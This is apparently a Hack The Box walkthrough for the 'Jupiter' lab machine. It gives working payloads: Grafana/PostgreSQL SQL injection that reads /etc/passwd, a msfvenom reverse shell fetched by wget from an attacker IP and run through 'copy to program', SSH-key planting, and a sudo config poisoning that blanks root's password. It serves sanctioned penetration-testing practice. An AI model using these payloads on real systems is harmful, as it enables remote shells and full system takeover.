technologies: jupyter notebook, grafana, postgresql, saattrack
vulnerabilities: sqli, rfi

# INITIAL ACCESS

## DISCOVERY

1. Run a Nmap scan and discover ports 22 and 80 open, with port 80 pointing to `jupiter.htb`



2. Add `jupiter.htb` to `/etc/hosts`

3. Find the kiosk subdomain

`ffuf -u http://jupiter.htb -H 'Host: FUZZ.jupiter.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -o subdomains.txt -fs 178`



4. Add the `kiosk.jupiter.htb` subdomain to `/etc/hosts`

5. Explore the kiosk webpage and examine, with Burp, the request being made to `/api/ds/query`



6. Send the request to Repeater and modify the contents of the query:

`"rawSql":"create temp table htb(content text); copy htb from '/etc/passwd'; select content from htb; drop table htb;"`



## EXPLOIT

1. Explore the SQL injection to get RCE

	* create a msfvenom shell 
	* wget the shell, chmod it, and execute it

```bash
# On Kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
python3 -m http.server 80 # in another terminal tab
nc -lvnp 1337 # in another terminal tab
```

```python
# On BurpSuite Repeater. Each line is a different request
1. "rawSql":"copy (select '') to program 'wget http://10.10.14.53/revshell.elf -O /tmp/revshell';"
2. "rawSql":"copy (select '') to program 'chmod 777 /tmp/revshell';"
3. "rawSql":"copy (select '') to program '/tmp/revshell';"
```



2. stabilize the shell by running it in the background (it gets disconnected every minute otherwise)

	a. start a new listener
	b. run revshell on background

```bash
nc -lvnp 1337 # in another terminal tab
/tmp/revshell & # in the revshell received 
# then stabilize the new shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<ctrl+z>
ssty raw -echo; fg
```

3. run pspy to analyze processes running locally

	* notice that **juno** is executing `/home/juno/.local/bin/shadow /dev/shm/network-simulation.yml` every now and then
	* notice that `network-simulation.yml` is writable!
	* edit the line containing the `curl` command and change it to `/tmp/revshell` (have a net listener waiting)







4. copy your local ssh key to juno's .ssh directory

`echo '<your-id_rsa.pub>' > /home/juno/.ssh/authorized_keys`
`chmod 600 /home/juno/.ssh/authorized_keys`



# PRIVILEGE ESCALATION

## DISCOVERY

1. ssh to **juno** with local port 8888 forwarded

`ssh juno@jupiter.htb -L 8888:127.0.0.1:8888`


2. check the latest log file in `/opt/solar-flares/logs`

3. the last file should have a url with a session token



## EXPLOIT 1

1. login to 127.0.0.1:8888 with the session token found

2. create a new notebook (python3 ipykernel)



3. write a python script in this new notebook

```python
import os
import time
os.popen("mkdir /home/jovian/.ssh")
time.sleep(1)
os.popen("chmod 700 /home/jovian/.ssh")
time.sleep(1)
# use your ssh pub key here:
os.popen("echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDgvIDakiM8JX8hkWqXCrAvkATfZYvh6WfBBOI3V2q+ODw4UkXJm+vqYgXBWPisaD91ESeFNFzhBBn+5HDRwbgwsz2InuyyexuQdP5EgxYxpPbnX/doz+aN40N9xT8F/emFowDibkFWDDkD/LId71BBCc6huk9TwgWZU5jNJ05dCg4lq2DlFJcWRP/5ja1R7YTThzqTQ/zlm1d1MzLq9nFd1GRtFGZnJ7vBqoCITjQHrjQQIKOlUigk/ASZ5gAs8NSN8rC7XzzOjk2FR6JFkyHGAsqtWIfcSSUs0ED3a6Thh9CD9a95dDSWjCdZWhDjv9fNV+Ad7B7z1/Xpoej9LQ8VkYdXC/Pd+sDPAzMoAu9vITfsD75S8twzaoVTeGf8x+sBnM47mo345VZSrxnqmnxigCGdOws95s0mUkHv8V8FY+2y9X5ShmrRe6tJmRdOpgd3ITmomGHk+T0ce6qrw8F658hxcsEb1+cdScmpeFdErEBRMz0Mijmw7vgPj+OcjNs= kali@kali' > /home/jovian/.ssh/authorized_keys")
time.sleep(1)
os.popen("chmod 600 /home/jovian/.ssh/authorized_keys")
```

4. run this script



5. ssh to **jovian**

## EXPLOIT 2

1. run `sudo -l` and notice:

```
User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```



2. run `strings` on that binary, and notice it is looking for a file in `/tmp/config.json`



3. find a sample config file and copy it to /tmp.

	* `find / -name config.json 2>/dev/null`
	* `cp /usr/local/share/sattrack/config.json /tmp/config.json`



4. edit the `/tmp/config.json` file and poison it as follows:

	* copy the `/etc/passwd` file from the host to your machine 
	* remove the "x" from the root line in the passwd file: `root::0:0:root:/root:/bin/bash`
	* change the "tlesources" to remove the links and add your controlled http server: `"tlesources":"http://<ip>/passwd"`
	* change the "tleroot" to "/etc/": `"tleroot": "/etc/"`

> this will remove the requirement of a password to su to root.





5. execute the binary as sudo and switch to root user

	* `sudo /usr/local/bin/sattrack`
	* `su root`

